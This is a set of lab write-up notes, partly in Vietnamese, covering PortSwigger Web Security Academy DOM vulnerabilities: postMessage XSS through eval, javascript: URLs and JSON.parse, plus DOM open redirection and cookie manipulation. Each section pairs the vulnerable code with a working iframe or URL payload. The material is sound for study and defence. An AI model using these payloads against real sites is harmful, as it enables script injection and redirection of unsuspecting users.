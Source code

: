 ### DOM XSS using web messages
```js
window.addEventListener('message', function(e) {
  eval(e.data);   // <- sink nguy hiểm, không kiểm tra origin -> vulnerable
});

Payload: 
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```
### DOM XSS using web messages and a JavaScript URL
```js
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```
Payload:
```js
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

Chuỗi `javascript:print()//http:` chứa `http:` → `indexOf('http:') !== -1` trả true → code tưởng đó là URL http → gán `location.href = msg` → trình duyệt xử lý `javascript:print()` → payload chạy.

### Lab: DOM XSS using web messages and `JSON.parse`
```js
window.addEventListener('message', function (e) {
    var iframe = document.createElement('iframe'), ACMEplayer = { element: iframe }, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch (e) {
        return;
    }
    switch (d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

Khi `iframe` chúng ta tạo được tải, phương thức `postMessage()` gửi một web message tới trang chủ với type là `load-channel`. Event listener nhận message và phân tích nó bằng `JSON.parse()` trước khi chuyển vào `switch`.

`switch` kích hoạt nhánh `load-channel`, nhánh này gán thuộc tính `url` của message cho thuộc tính src của `iframe` ACMEplayer.element. Tuy nhiên, trong trường hợp này, thuộc tính url của message thực sự chứa payload JavaScript của chúng ta.

Vì đối số thứ hai (targetOrigin) cho biết bất kỳ `targetOrigin` nào đều được phép cho web message, và handler không chứa bất kỳ hình thức kiểm tra origin nào, payload được đặt làm `src` của `iframe` `ACMEplayer.element`. Hàm `print()` được gọi khi nạn nhân tải trang trong trình duyệt của họ.

### DOM-based open redirection
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```
- `(https?:\/\/.+)` là một capture group:
- `https?://` → bắt `http://` hoặc `https://`
- `.+` → khớp mọi ký tự từ đây đến hết chuỗi, càng nhiều càng tốt (gọi là tham lam - greedy).
- `.exec(location)` chạy regex trên chuỗi location (thường tự động chuyển thành `location.href`).
```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM-based cookie manipulation
```js
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

```html
<iframe
  src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>"
  onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
</iframe>
```

